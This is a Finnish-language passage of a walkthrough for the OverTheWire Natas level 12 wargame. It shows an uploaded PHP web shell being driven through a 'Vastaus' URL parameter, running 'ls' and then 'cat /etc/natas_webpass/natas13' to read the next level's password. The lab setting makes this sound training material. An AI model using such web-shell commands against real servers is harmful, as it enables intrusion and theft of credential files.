 Nyt alemmassa kuvassa huomioina toi **URL** kentässä näkyy lisäsin perään *Vastaus=ls* - koska oma testi tiedoston koodi pätkässsä on se **"Vastaus"** sana ja katsotaan löytääkö sen mistään skriptien ja muualta hakemiston alta. Tuloksena antoi jotakin loorem ipsum hebreeta dataa.

```
http://natas12.natas.labs.overthewire.org/upload/am34u6tos4.php?Vastaus=ls
ls (linux komento $ls)
```

![alt text](./kuvat-level11-15/natas12-19.png)


**Seuraavaksi**: <br>
testataan hakemiston tiedoston URL kuin **=cat /etc/natas_webpass/natas13** - ja tätä sijoittuu sinne URL peräänsä siksi lukee näin:

`http://natas12.natas.labs.overthewire.org/upload/am34u6tos4.php?Vastaus=cat%20/etc/natas_webpass/natas13`
<br><br>
